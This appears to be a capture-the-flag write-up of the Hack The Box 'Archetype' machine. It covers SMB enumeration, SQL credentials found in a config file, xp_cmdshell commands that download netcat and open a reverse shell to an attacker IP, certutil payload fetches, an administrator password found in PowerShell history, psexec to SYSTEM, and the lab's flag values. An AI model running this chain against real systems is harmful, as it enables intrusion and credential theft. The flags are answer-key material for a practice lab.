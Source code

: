 # Archetype

---

IP = `10.129.250.121`

```
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

```

```
# smbclient -NL 10.129.250.121

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.250.121 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

```
smb: \> ls
  .                                   D        0  Mon Jan 20 12:20:57 2020
  ..                                  D        0  Mon Jan 20 12:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 12:23:02 2020

                5056511 blocks of size 4096. 2611351 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)

```
from prod.dtsConfig, we found credentials

`Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc`

```
┌──(root㉿core)-[/work/ctf/htb/archetype]
└─# impacket-mssqlclient sql_svc@10.129.250.121 -windows-auth
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL (ARCHETYPE\sql_svc  dbo@master)>

```

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.4.96.175/nc64.exe -outfile nc64.exe"

xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.142 443"

certutil.exe -urlcache -f http://10.10.14.142/winPEAS.ps1 winPEAS.ps1

certutil.exe -f http://10.4.96.175/winPEAS.ps1 winPEAS.ps1

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Privesc 1 :
`SeImpersonatePrivilege        Impersonate a client after authentication Enabled`
is vulnerable to juicy-potato-exploit

Privesc 2:
```
=========||  Password Check in Files/Folders
=========|| Password Check. Starting at root of each drive. This will take some time. Like, grab a coffee or tea kinda time.
=========|| Looking through each drive, searching for *.xml *.txt *.conf *.config *.cfg *.ini .y*ml *.log *.bak *.xls *.xlsx *.xlsm
--SNIP--
Possible Password found: Usernames2
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Usernames2 triggered
> net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
  exit
--SNIP--
```
We got in cleartext the password for the `Administrator` user which is `MEGACORP_4dm1n!!`
We can now use the tool psexec.py again from the Impacket suite to get a shell as the administrator:
`impacket-psexec.py administrator@{TARGET_IP}`


From the output (winpeas) we can observe that we have `SeImpersonatePrivilege` (more information can be found
[here](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege)), which is also vulnerable to [juicy potato exploit](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato). However, we can first check the two existing files
where credentials could be possible to be found.

As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. To do that, we will read the PowerShell history file, which is the equivalent of `.bash_history` for Linux systems. The file `ConsoleHost_history.txt` can be located in the directory
`C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\` .


```
┌──(root㉿core)-[/work/ctf/htb/archetype]
└─# impacket-psexec administrator@10.129.250.121
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[*] Requesting shares on 10.129.250.121.....
[*] Found writable share ADMIN$
[*] Uploading file OBDQzcTc.exe
[*] Opening SVCManager on 10.129.250.121.....
[*] Creating service BxwR on 10.129.250.121.....
[*] Starting service BxwR.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

```

**user.txt**

`3e7b102e78218e935bf3f4951fec21a3`

**root.txt**

`b91ccec3305e98240082d4474b848528`